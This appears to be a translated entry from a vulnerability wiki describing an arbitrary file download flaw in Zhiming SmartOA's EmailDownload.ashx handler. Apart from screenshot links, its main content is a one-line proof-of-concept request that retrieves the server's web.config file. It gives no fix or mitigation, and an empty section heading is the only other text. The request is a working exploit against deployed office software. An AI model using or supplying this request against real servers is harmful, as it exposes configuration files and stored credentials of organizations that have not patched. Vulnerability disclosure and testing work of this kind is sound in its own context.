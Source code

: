# SmartOA EmailDownload.ashx Arbitrary File Download Vulnerability

## Vulnerability Description

Zhiming SmartOA EmailDownload.ashx file has any file download vulnerability. Through the vulnerability, you can download sensitive files on the server and view sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SmartOA</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631326538226-96c43380-0494-47e1-899c-7e115530b1bb.png)

Verify POC

```python
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631326793699-a63d3321-beee-4241-9369-2e3ccb9ac39f.png)
